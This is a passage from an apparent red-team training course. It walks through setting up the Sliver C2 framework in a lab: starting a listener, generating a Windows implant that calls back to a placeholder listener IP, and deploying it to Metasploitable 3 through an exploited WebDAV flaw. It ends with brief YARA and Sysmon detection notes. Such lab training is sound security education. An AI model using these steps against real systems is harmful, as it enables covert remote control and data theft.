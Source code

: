### Module 4.2: Covert Operations - Command & Control (C2)

A standard Meterpreter shell is effective but can be noisy and easily detected by modern EDR solutions. A professional adversary uses a dedicated Command and Control (C2) framework designed for stealth, resilience, and operational flexibility.

#### Introduction to C2 Frameworks

C2 frameworks like Cobalt Strike, Brute Ratel, Covenant, and Sliver operate on a client-server model. A payload, often called an implant, beacon, or grunt, is executed on the victim machine. This implant initiates an outbound connection (a "callback") to a listener on the attacker's C2 server. This establishes a stable and often stealthy channel for command execution, data exfiltration, and further pivoting.46 These frameworks are designed to evade detection by mimicking legitimate network traffic (e.g., hiding in standard HTTPS or DNS traffic), are highly configurable to alter their network indicators, and support multi-operator collaboration on a single engagement.46

#### Tutorial: Setting up Sliver C2

Sliver is a powerful, open-source, Go-based C2 framework that serves as an excellent alternative to its commercial counterparts.49

- **Procedure:**
    
    1. **Installation:** Install the Sliver server and client on the Kali machine according to the official project documentation.
        
    2. **Server Launch:** Start the C2 server by running `sliver-server`. This will also launch an interactive operator console.
        
    3. **Listener Creation:** Inside the Sliver console, start a listener to accept incoming connections. For example, `http` will start a basic HTTP listener. Note the IP address and port it is bound to.
        
    4. **Implant Generation:** Generate the malicious payload that will be deployed to the victim. The command `generate --http <LISTENER_IP> --os windows --arch amd64` will create a standard Windows executable implant configured to call back to the specified HTTP listener.
        
    5. **Deployment and Execution:** The generated executable must be transferred to the Metasploitable 3 machine. The previously exploited WebDAV vulnerability provides a convenient channel for this. Once on the target, the implant is executed.
        
    6. **Callback and Interaction:** Back in the Sliver console, a new session will appear as the implant checks in. The `sessions` command lists all active implants. The `use <session_id>` command allows the operator to interact with the compromised host, executing commands through the covert C2 channel.
        
- **Detection:** As detailed by Wazuh's research, Sliver implants can be detected. YARA rules can be used to scan memory and disk for the implant's unique artifacts. Furthermore, Sysmon can be configured to detect the specific process behaviors and network connection patterns associated with the implant's execution and C2 communication.51
    

### Module 4.3: Lateral Movement and Domain Dominance

An adversary rarely lands on their ultimate target. The initial compromised host is merely a beachhead. The next objective is to move laterally through the network, escalating privileges and gaining access to more valuable systems, with the ultimate goal often being the Domain Controller.

